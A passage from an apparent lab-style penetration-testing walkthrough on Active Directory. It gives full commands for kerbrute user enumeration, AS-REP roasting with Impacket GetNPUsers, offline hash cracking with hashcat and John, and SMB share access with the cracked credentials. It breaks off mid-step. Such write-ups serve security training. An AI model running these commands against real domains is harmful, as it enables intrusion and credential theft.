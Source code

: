 ```bash
# Example: kerbrute (replace args per binary)
kerbrute userenum -d <DOMAIN> users.txt
```

**Why:** To build a candidate userlist for AS-REP roasting and to locate service/backup-related accounts.

---

### 3. AS-REP Roasting (GetNPUsers)

Accounts with “Do not require Kerberos preauthentication” will return an encrypted blob when you request a TGT; this blob can be cracked offline.

Use Impacket’s GetNPUsers:

```bash
# Format hashcat-ready output
python3 /usr/share/doc/impacket/examples/GetNPUsers.py <DOMAIN>/ -usersfile users.txt -format hashcat > asrep.hashes
```

If an account is AS-REP roastable, `GetNPUsers.py` returns an `etype=23` hash.

**Why:** AS-REP roasting provides password material without valid credentials — very valuable.

---

### 4. Cracking the AS-REP Hash

Crack the retrieved hash offline:

```bash
# Hashcat example (adjust hash mode; etype23 is 18200)
hashcat -m 18200 asrep.hashes /path/to/wordlist.txt
# OR John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt asrep.hashes
```

When cracked, you obtain a username + plaintext password (e.g., `svc-backup:Summer2023!`).

**Tip:** If standard wordlists fail, try rule-based transforms or targeted wordlists (company names, years, common patterns).

---

### 5. Access SMB Shares with Cracked Credentials

Use the recovered credentials to enumerate and access SMB shares.

```bash
# List shares
smbclient -L //<TARGET> -U 'DOMAIN\\svc-backup'
# Connect to a share (e.g., backup)
smbclient // <TARGET>/backup -U 'DOMAIN\\svc-backup'
```

Download likely files (backups, `.bkf`, `.tar`, config files). Inspect files — sometimes credentials are base64-encoded, plaintext, or stored in backups. Example decode:
